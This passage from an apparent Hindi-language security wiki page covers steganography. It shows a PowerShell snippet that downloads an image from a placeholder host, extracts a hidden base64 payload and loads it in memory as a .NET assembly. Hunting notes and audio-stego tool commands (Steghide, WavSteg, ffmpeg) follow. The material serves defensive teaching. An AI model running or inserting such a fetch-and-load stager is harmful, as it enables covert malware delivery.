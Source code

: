 न्यूनतम PowerShell carving/loading स्निपेट
```powershell
$img = (New-Object Net.WebClient).DownloadString('https://example.com/p.gif')
$start = '<<sudo_png>>'; $end = '<<sudo_odt>>'
$s = $img.IndexOf($start); $e = $img.IndexOf($end)
if($s -ge 0 -and $e -gt $s){
$b64 = $img.Substring($s + $start.Length, $e - ($s + $start.Length))
$bytes = [Convert]::FromBase64String($b64)
[Reflection.Assembly]::Load($bytes) | Out-Null
}
```
नोट्स
- यह ATT&CK T1027.003 (steganography) के अंतर्गत आता है। Marker strings अभियानों के बीच भिन्न होते हैं।
- Hunting: डाउनलोड की गई इमेजेस को ज्ञात डिलिमिटर के लिए स्कैन करें; `PowerShell` को तब फ्लैग करें जब वह `DownloadString` के बाद `FromBase64String` का उपयोग करे।

See also phishing delivery examples and full in-memory invocation flow here:

{{#ref}}
../generic-methodologies-and-resources/phishing-methodology/phishing-documents.md
{{#endref}}

## **ऑडियो से डेटा निकालना**

**Audio steganography** ध्वनि फ़ाइलों के भीतर जानकारी छिपाने का एक अनूठा तरीका प्रदान करता है। निहित सामग्री को एम्बेड करने या निकालने के लिए विभिन्न टूल उपयोग किए जाते हैं।

### **Steghide (JPEG, BMP, WAV, AU)**

Steghide एक बहुमुखी टूल है जो JPEG, BMP, WAV, और AU फ़ाइलों में डेटा छिपाने के लिए बनाया गया है। विस्तृत निर्देश [stego tricks documentation](stego-tricks.md#steghide) में दिए गए हैं।

### **Stegpy (PNG, BMP, GIF, WebP, WAV)**

Stegpy विभिन्न फ़ॉर्मैट्स जैसे PNG, BMP, GIF, WebP, और WAV के साथ संगत है। अधिक जानकारी के लिए [Stegpy's section](stego-tricks.md#stegpy-png-bmp-gif-webp-wav) देखें।

### **ffmpeg**

ffmpeg ऑडियो फ़ाइलों की अखंडता का आकलन करने में महत्वपूर्ण है, विस्तृत जानकारी दिखाता है और किसी भी विसंगति को पहचानता है।
```bash
ffmpeg -v info -i stego.mp3 -f null -
```
### **WavSteg (WAV)**

WavSteg WAV फ़ाइलों के भीतर डेटा को LSB (least significant bit) रणनीति का उपयोग करके छिपाने और निकालने में उत्कृष्ट है। यह [GitHub](https://github.com/ragibson/Steganography#WavSteg) पर उपलब्ध है। कमांड्स में:
```bash
python3 WavSteg.py -r -b 1 -s soundfile -o outputfile

python3 WavSteg.py -r -b 2 -s soundfile -o outputfile
```
### **Deepsound**

